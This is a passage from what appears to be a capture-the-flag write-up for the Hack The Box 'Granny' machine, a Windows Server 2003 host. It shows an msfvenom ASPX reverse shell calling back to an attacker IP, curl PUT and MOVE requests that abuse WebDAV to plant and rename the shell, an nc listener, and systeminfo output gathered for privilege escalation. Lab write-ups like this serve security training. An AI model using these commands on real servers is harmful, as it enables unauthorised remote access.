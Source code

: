 Perfect! Now we have confirmed that we can successfully upload and execute ASPX code on the web server.

## Initial Foothold
we will use msfvenom to create a ASPX reverse shell.

```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.14 LPORT=443 -o shell.aspx
```
Rename the file to _shell.txt_ so that we can upload it on the server.

```bash
mv shell.aspx shell.txt
```

Then upload the file on the web server and change the file extension to ASPX.

```bash
# Binary mode
curl -X PUT http://10.10.10.15/shell.txt --data-binary @shell.txt
# change the file extension
curl -X MOVE --header 'Destination:http://10.10.10.15/shell.aspx' 'http://10.10.10.15/shell.txt'
```

![[Granny-08.png]]

Next, set up a listener on my attack machine. Execute the _shell.aspx_ file

```bash
nc -vlp 443
curl http://10.10.10.15/shell.aspx
```

![[Granny-09.png]]

Excellent! we get the initial shell. But we can't access the user flag. So we need to do privilege escalation.

![[Granny-10.png]]

# Privilege Escalation
to use windows exploit suggestor , we should run systeminfo and write it into a text.

## 1. systeminfo

```bash
# windows
systeminfo
# kali
mousepad systeminfo.txt
```

```txt
Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 10 Hours, 50 Minutes, 8 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
```